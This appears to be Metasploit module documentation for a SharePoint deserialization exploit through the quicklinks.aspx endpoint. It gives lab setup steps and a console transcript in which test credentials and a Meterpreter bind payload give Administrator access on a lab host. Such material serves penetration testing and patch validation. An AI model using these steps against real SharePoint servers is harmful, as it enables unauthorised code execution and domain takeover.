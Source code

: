 ## Vulnerable Application
A remotely exploitable vulnerability exists within SharePoint that can be leveraged by a remote authenticated attacker
to execute code within the context of the SharePoint application service. The vulnerability is related to a failure to
validate the source of XML input data, leading to an unsafe deserialization operation. In a default configuration, a
Domain User account is sufficient to access SharePoint and exploit this vulnerability.

This module leverages the `/_layouts/15/quicklinks.aspx?Mode=Suggestion` endpoint that was confirmed to be vulnerable by
[Soroush Dalili](https://twitter.com/irsdl). Alternative endpoints that instantiate the
`ContactLinksSuggestionsMicroView` type maybe used as well but are not supported by the module.

### Configuring SharePoint
Once SharePoint is installed, it needs to be configured with a site in order to be exploitable. The Central
Administration web interface **is not vulnerable**. To configure SharePoint to be a stand alone server:

1. Install Active Directory and promote the server to be a Domain Controller
    1. Install the "Active Directory Domain Services" role
    1. Promote the server to a Domain Controller in a new forest
    1. Create a Domain User account for testing
1. Install SQL Server Express
1. Run the "SharePoint Products Configuration Wizard"
    1. Use the SQL Server Express instances as the database server
1. In te SharePoint "Central Administration" console web interface:
    1. Verify that there is a web application under the "Manage web applications" page
    1. Create a new "Site Collection" under the "Create site collections" page
        1. Select the previously created web application
        1. Set a Title
        1. Use the default "Team Site" template
        1. Set the "Primary Site Collection Administrator" to the Domain Administrator account

## Verification Steps

1. Install the application and ensure a page is accessible
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOST`, `USERNAME`, `PASSWORD` and `PAYLOAD` options
1. Run the exploit
1. You should get a shell

## Options

## Scenarios

### SharePoint 2016 on Server 2016

```
msf5 > use exploit/windows/http/sharepoint_data_deserialization 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/sharepoint_data_deserialization) > set RHOSTS 192.168.63.168
RHOSTS => 192.168.63.168
msf5 exploit(windows/http/sharepoint_data_deserialization) > set RPORT 80
RPORT => 80
msf5 exploit(windows/http/sharepoint_data_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf5 exploit(windows/http/sharepoint_data_deserialization) > set VHOST ec2amaz-v2pri0v
VHOST => ec2amaz-v2pri0v
msf5 exploit(windows/http/sharepoint_data_deserialization) > set USERNAME smcintyre
USERNAME => smcintyre
msf5 exploit(windows/http/sharepoint_data_deserialization) > set PASSWORD Password1
PASSWORD => Password1
msf5 exploit(windows/http/sharepoint_data_deserialization) > set DOMAIN SHRPNT
DOMAIN => SHRPNT
msf5 exploit(windows/http/sharepoint_data_deserialization) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/http/sharepoint_data_deserialization) > check
[*] 192.168.63.168:80 - The service is running, but could not be validated. Received the quicklinks HTML form.
msf5 exploit(windows/http/sharepoint_data_deserialization) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Received the quicklinks HTML form.
[*] Command Stager progress -   7.42% done (7499/101079 bytes)
[*] Command Stager progress -  14.84% done (14998/101079 bytes)
[*] Command Stager progress -  22.26% done (22497/101079 bytes)
[*] Command Stager progress -  29.68% done (29996/101079 bytes)
[*] Command Stager progress -  37.09% done (37495/101079 bytes)
[*] Command Stager progress -  44.51% done (44994/101079 bytes)
[*] Command Stager progress -  51.93% done (52493/101079 bytes)
[*] Command Stager progress -  59.35% done (59992/101079 bytes)
[*] Command Stager progress -  66.77% done (67491/101079 bytes)
[*] Command Stager progress -  74.19% done (74990/101079 bytes)
[*] Command Stager progress -  81.61% done (82489/101079 bytes)
[*] Command Stager progress -  89.03% done (89988/101079 bytes)
[*] Command Stager progress -  96.45% done (97487/101079 bytes)
[*] Command Stager progress - 100.00% done (101079/101079 bytes)
[*] Started bind TCP handler against 192.168.63.168:4444
[*] Sending stage (176195 bytes) to 192.168.63.168
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.63.168:4444) at 2020-07-29 11:45:13 -0400

meterpreter > sysinfo
Computer        : EC2AMAZ-V2PRI0V
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 19
Meterpreter     : x86/windows
meterpreter > getuid
Server username: SHRPNT\Administrator
meterpreter >
```
